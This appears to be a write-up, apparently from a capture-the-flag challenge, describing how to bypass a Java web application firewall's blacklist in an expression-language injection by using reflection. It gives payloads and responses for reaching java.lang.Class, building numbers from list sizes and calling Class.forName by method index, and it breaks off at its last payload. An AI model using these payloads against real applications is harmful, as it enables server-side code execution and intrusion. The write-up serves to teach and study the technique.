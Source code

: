 ![](https://i.imgur.com/e3lSaLz.png)

### Bypassing the Java WAF - bit by bit

* **Building blocks**

Although the WAF blocks a lot of important keywords and chars, it allows us some basic important chars:
- Parentheses: `()`
- Dot: `.`
- Brackets: `[]`
- Words outside the blacklist: `lang, size, ..`
- WAF is also case-sensitive (we didn't need it, but could help)

We have to build from here, using [Java Reflection](https://www.baeldung.com/java-reflection), but it gives us a lot of powers.

* **Key Classes**

First of all, two classes will help us get the rest:
- `java.lang.String` (showed in the first payload)
- `java.lang.Class`

To get the Class, we just need another getClass():

**Payload**

`${message.getClass().getClass().toString()}`

**Response**

`class java.lang.Class is not a valid country`

- **Numbers**

We can avoid a lot of basic strings, but we really need numbers.
We came out with a simple (but verbose) solution, using array sizes.

**Payload**

`${[null, null, null, null].size()}`

**Response**

`4 is not a valid country`

- **Dynamic Methods -> Class.forName**

We can call dynamic methods from classes using the `getMethods` method and acessing them by their index.

For finding classes by name to instantiate, we would like to use the Class.forName method, but the `for` and `Name` strings are blocked.

Since forName is the 2nd method of Class, we call get the method by Index.

**Payload**

`${message.getClass().getClass().getMethods()[[null, null].size()]}`

**Response**
